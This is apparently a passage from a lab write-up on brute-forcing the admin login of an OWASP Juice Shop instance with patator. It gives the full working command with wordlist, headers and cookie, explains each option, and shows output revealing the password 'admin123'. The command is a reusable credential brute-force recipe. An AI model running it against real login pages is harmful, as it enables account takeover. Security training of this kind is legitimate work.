 Let's use this data to prepare patator's command line:

```
patator http_fuzz url=http://192.168.0.148:3000/rest/user/login \
  method=POST body='{"email":"admin@juice-sh.op","password":"FILE0"}' \
  0=/usr/share/wordlists/metasploit/common_roots.txt follow=0 accept_cookie=1 \
  auto_urlencode=0 http_proxy=127.0.0.1:8080 \
  -x ignore:code=400 -x ignore:code=401 \
  header="User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.148:3000/
Content-Type: application/json;charset=utf-8
Cookie: io=IQrSrp1Smz-Dt1BVAAZt; continueCode=ENPOx8Z4XYmw1zgRDjyAq4HlukhgIZinSnHWu5tx0WlLQpqb23JK6Mkr7eBV
Connection: close"
```

Command line is huge, let's try to understand it's options:
 
 * `http_fuzz`, `url`, `method` - we use to specify HTTP POST bruteforce
 * `body` is actual out POST data, where `FILE0` is our passwords list file, wich is specified with `0` parameter, we'll use metasploit's wordlist named `common_roots.txt`
 * `follow`, `accept_cookie` - disable HTTP redirection, remember that server is responding with 401 code 
 * `http_proxy` is our burp's proxy, I prefer to see the requests at least for the first time to ensure that everything is going right
* `x ignore:code=` is server's requests that we are skipping, and finally `header` is our data from burp, without this server will not be procced to login

The patator will work for couple of minutes, and here is the result:

```
18:38:13 patator    INFO - Starting Patator v0.6 (http://code.google.com/p/patator/) at 2018-02-21 18:38 EET
18:38:13 patator    INFO -                                                                              
18:38:13 patator    INFO - code size:clen       time | candidate                          |   num | mesg
18:38:13 patator    INFO - -----------------------------------------------------------------------------
18:38:54 patator    INFO - 200  891:588        0.619 | admin123                           |  1115 | HTTP/1.1 200 OK
18:41:04 patator    INFO - Hits/Done/Skip/Fail/Size: 1/4725/0/0/4725, Avg: 27 r/s, Time: 0h 2m 50s
```

We got it! 

To be honest, my first impression from bruteforcing with hydra/patator, was that it is incredibly slow and irrelevant. That's why I spend couple of hours trying to write my own simple [piece of software](https://github.com/expend20/http-post-bruteforce). But in the end, final benchmark shows there is almost no difference in time, despite 5% more CPU usage with patator. So, do not reinvent the wheel, until you 100% sure for what you are doing that. The only advantage is, that my tool has a much simpler interface to do this particular attack.
